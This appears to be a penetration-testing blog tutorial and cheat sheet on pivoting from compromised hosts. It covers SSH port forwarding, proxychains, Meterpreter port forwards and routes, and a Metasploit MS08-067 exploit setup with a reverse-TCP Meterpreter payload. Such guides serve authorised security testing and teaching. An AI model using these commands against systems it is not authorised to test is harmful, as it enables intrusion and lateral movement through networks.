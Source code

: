 

# Pivoting on a Penetration Test

## What is Pivoting ?

Pivoting allows a security consultant to use a host compromised during a [pen testing](https://www.aptive.co.uk/penetration-testing/) engagement to route traffic to other hosts or subnets, giving the tester access to more target machines. Pivoting allows a tester to leverage an existing foothold to move through the network compromising more hosts that were not exposed originally. Typically, a foot hold is established on a target network from successfully exploiting an external machine on a penetration test or from a successful phishing / spear phishing campaign.

This article focuses specifically on pivoting from compromised Linux hosts using SSH and meterpreter pivoting, however the pivoting techniques for Meterpreter also apply to Windows targets. 

## SSH Pivoting on Pen Tests 

SSH port forwarding is a reliable method of pivoting for Linux hosts, the draw back being a new port forward needs to be added for each port you wish to access the host on. For example, if you discover a host has SMB and RDP exposed you would need to create a SSH port forward (example below) for both ports <code>445</code> and <code>3389</code>. Due to this limitation it's often advisable to either scan from a compromised machine (using a single binary you can remove after testing) or use Dynamic Proxychain forwarding (example below) for the initial nmap scan to see what's exposed. Although it's additional effort to setup SSH port forwarding the extra work is worth it for a stable connection while testing. 

<div>
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>ssh -L 9999:10.0.2.2:445 user@192.168.2.250</code></p>
      </td>
      <td>
            <p>SSH port forwarding, port 9999 locally is forwarded to port 445 on 10.0.2.2 through host 192.168.2.250</p>
      </td>
    </tr>
      <tr>
      <td>
        <p><code>ssh -D 127.0.0.1:9050 root@192.168.2.250</code></p>
      </td>
      <td>
            <p>Proxychains Forwarding - Dynamically allows all port forwards to the subnets availble on the target.</p>
      </td>
    </tr>
      </tbody>
</table>
</div>

## Note on Proxychain port forwards 

Dynamic SSH Proxychain forwarding does not work with meterpreter shells. 

If you attempt to spawn a shell via Meterpreter, you'll get an error similar to the following:


```bash 
meterpreter > execute -f cmd.exe -i -H
|S-chain|-<>-127.0.0.1:9050-<><>-127.0.0.1:41713-<--timeout
``` 

## How to use Proxychain port forwards 

All commands must be prefixed with <code>proxychains</code> in order to route traffic correctly. 

### Example connecting to RDP over Proxychains 

```bash 
proxychains rdesktop TARGET-ADDRESS 
``` 

## Metasploit SSH Pivoting Example 

The following example uses the Metasploit module for **MS08_067** assumes you have setup the SSH port forward using the instructions above and port: <code>9999</code> is forwarded to 445. 

**Attacking Machine:** 192.168.3.99 

```bash
msf exploit(ms08_067_netapi) > show options

 Module options (exploit/windows/smb/ms08_067_netapi):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    RHOST    0.0.0.0          yes       The target address
    RPORT    9999             yes       Set the SMB service port
    SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


 Payload options (windows/meterpreter/reverse_tcp):

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  thread           yes       Exit technique (accepted: seh, thread, process, none)
    LHOST     192.168.3.99     yes       The listen address
    LPORT     443              yes       The listen port

 Exploit target:

    Id  Name
    --  ----
   0   Automatic Targeting
``` 

## Meterpreter Pivoting Cheat Sheet 

If you have successfully compromised a host during a penetration test it's possible to use a meterpreter shell to pivot to other hosts on the network. Using meterpreter it's possible to pivot from compromised Windows and Linux targets, however it's typically far less reliable than SSH port forwarding as Meterpreter sessions can time out killing the connection. 

<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>portfwd add –l 3389 –p 3389 –r target-host</code></p>
      </td>
      <td>
            <p>Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>portfwd delete  –l 3389 –p 3389 –r target-host</code></p>
      </td>
      <td>
            <p>Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>portfwd flush</code></p>
      </td>
      <td>
            <p>Delete all port forwards</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>portfwd list</code></p>
      </td>
      <td>
            <p>List active port forwards</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>run autoroute -s 192.168.15.0/24</code></p>
      </td>
      <td>
            <p>Autoroute script to add the route for specified subnet <code>192.168.15.0</code></p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>run autoroute -p</code></p>
      </td>
      <td>
            <p>List all active routes</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>route</code></p>
      </td>
      <td>
            <p>View available networks the compromised host can access</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>route add 192.168.14.0 255.255.255.0 3</code></p>
      </td>
      <td>
            <p>Add route for 192.168.14.0/24 via Session 3.</p>
      </td>
    </tr>

    <tr>
      <td>
        <p><code>route delete 192.168.14.0 255.255.255.0 3</code></p>
      </td>
      <td>
            <p>Delete route for 192.168.14.0/24 via Session 3.</p>
      </td>
    </tr>


    <tr>
      <td>
        <p><code>route flush</code></p>
      </td>
      <td>
            <p>Delete all Meterpreter routes</p>
      </td>
    </tr>

      </tbody>
</table>

 
## How to Connect to targets using Meterpreter Port Forwards 

The port is forwarded locally to the target. Using RDP as an example, assuming you have setup a meterpreter port forward using the same port for local and remote. You would connect to it using: 

```bash 
rdesktop 127.0.0.1
```

Enjoy.  
